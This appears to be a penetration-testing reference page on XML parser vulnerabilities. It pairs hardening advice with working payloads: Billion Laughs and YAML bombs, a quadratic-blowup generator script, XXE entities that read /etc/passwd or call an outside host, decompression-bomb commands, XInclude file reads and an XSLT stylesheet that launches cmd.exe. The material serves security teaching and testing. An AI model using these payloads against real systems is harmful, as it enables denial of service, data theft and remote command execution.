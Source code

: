 

## XML Vulnerabilities


XML processing modules may be not secure against maliciously constructed data. An attacker could abuse XML features to carry out denial of service attacks, access logical files, generate network connections to other machines, or circumvent firewalls.

The penetration tester running XML tests against application will have to determine which XML parser is in use, and then to what kinds of below listed attacks that parser will be vulnerable.

---

### How to avoid XML vulnerabilities

Best practices

- Don't allow DTDs
- Don't expand entities
- Don't resolve externals
- Limit parse depth
- Limit total input size
- Limit parse time
- Favor a SAX or iterparse-like parser for potential large data
- Validate and properly quote arguments to XSL transformations and XPath queries
- Don't use XPath expression from untrusted sources
- Don't apply XSL transformations that come untrusted sources

(based on [Brad Hill's Attacking XML Security](https://www.isecpartners.com/media/12976/iSEC-HILL-Attacking-XML-Security-bh07.pdf))

---

### Billion Laughs

The [Billion Laughs](https://en.wikipedia.org/wiki/Billion_laughs) attack – also known as exponential entity expansion – uses multiple levels of nested entities. Each entity refers to another entity several times, and the final entity definition contains a small string. The exponential expansion results in several gigabytes of text and consumes lots of memory and CPU time.

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

**YAML bomb**:

```
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

---

### Quadratic Blowup

A quadratic blowup attack is similar to a [Billion Laughs](https://en.wikipedia.org/wiki/Billion_laughs) attack; it abuses entity expansion, too. Instead of nested entities it repeats one large entity with a couple of thousand chars over and over again. The attack isn’t as efficient as the exponential case but it avoids triggering parser countermeasures that forbid deeply-nested entities.

If an attacker defines the entity `"&x;"` as 55,000 characters long, and refers to that entity 55,000 times inside the `"DoS"` element, the parser ends up with an XML Quadratic Blowup attack payload slightly over 200 KB in size that expands to 2.5 GB when parsed.

**genQuadraticBlowup.py**
```
#!/usr/bin/python3

NUM = 55000

def main():
	entity = 'A' * NUM
	refs = '&x;' * NUM
	templ = '''<?xml version="1.0"?>
	<!DOCTYPE DoS [
	  <!ENTITY x "{entity}">
	]>
	<DoS>{entityReferences}</DoS>
	'''.format(entity=entity, entityReferences=refs)

	print(templ)

if __name__ == '__main__':
	main()
```

---

### XML External Entities expansion / XXE

An XML External Entity attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.


```
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://x.x.x.x:443/test.txt">
]>
<r>&sp;</r>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
 <!ELEMENT foo ANY >
 <!ENTITY xxe SYSTEM "file:///dev/random" >]><foo>&xxe;</foo>
```

Other XXE payloads worth testing:
- [XXE-Payloads](https://gist.github.com/mgeeky/181c6836488e35fcbf70290a048cd51d)
- [Blind-XXE-Payload](https://gist.github.com/mgeeky/cf677de6e7fdc05803f6935de1ee0882)

---

### DTD Retrieval

This case is similar to external entity expansion, too. Some XML libraries like Python's xml.dom.pulldom retrieve document type definitions from remote or local locations. Several attack scenarios from the external entity case apply to this issue as well.

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
  "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
    <head/>
    <body>text</body>
</html>
```

---

### Decompression Bomb

Decompression bombs (aka [ZIP bomb](https://en.wikipedia.org/wiki/Zip_bomb)) apply to all XML libraries that can parse compressed XML streams such as gzipped HTTP streams or LZMA-compressed files. For an attacker it can reduce the amount of transmitted data by three magnitudes or more.

```
$ dd if=/dev/zero bs=1M count=1024 | gzip > zeros.gz
$ dd if=/dev/zero bs=1M count=1024 | lzma -z > zeros.xy
$ ls -sh zeros.*
1020K zeros.gz
148K zeros.xy
```


---

### XPath Injection

XPath injeciton attacks pretty much work like SQL injection attacks. Arguments to XPath queries must be quoted and validated properly, especially when they are taken from the user. The page [Avoid the dangers of XPath injection](http://www.ibm.com/developerworks/xml/library/x-xpathinjection/index.html) list some ramifications of XPath injections.

---

### XInclude

XML Inclusion is another way to load and include external files:

```
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="filename.txt" parse="text" />
</root>
```


This feature should be disabled when XML files from an untrusted source are processed. Some Python XML libraries and libxml2 support XInclude but don't have an option to sandbox inclusion and limit it to allowed directories.

---

### XSL Transformation

You should keep in mind that XSLT is a Turing complete language. Never process XSLT code from unknown or untrusted source! XSLT processors may allow you to interact with external resources in ways you can't even imagine. Some processors even support extensions that allow read/write access to file system, access to JRE objects or scripting with Jython.

Example from [Attacking XML Security](https://www.isecpartners.com/media/12976/iSEC-HILL-Attacking-XML-Security-bh07.pdf) for Xalan-J:

```
<xsl:stylesheet version="1.0"
 xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
 xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
 xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object"
 exclude-result-prefixes= "rt ob">
 <xsl:template match="/">
   <xsl:variable name="runtimeObject" select="rt:getRuntime()"/>
   <xsl:variable name="command"
     select="rt:exec($runtimeObject, &apos;c:\Windows\system32\cmd.exe&apos;)"/>
   <xsl:variable name="commandAsString" select="ob:toString($command)"/>
   <xsl:value-of select="$commandAsString"/>
 </xsl:template>
</xsl:stylesheet>
```

---

### SOURCES

- https://github.com/tiran/defusedxml
- https://docs.python.org/3/library/xml.html#xml-vulnerabilities
- https://www.darknet.org.uk/2014/08/xml-quadratic-blowup-attack-blow-wordpress-drupal/
- https://en.wikipedia.org/wiki/Billion_laughs_attack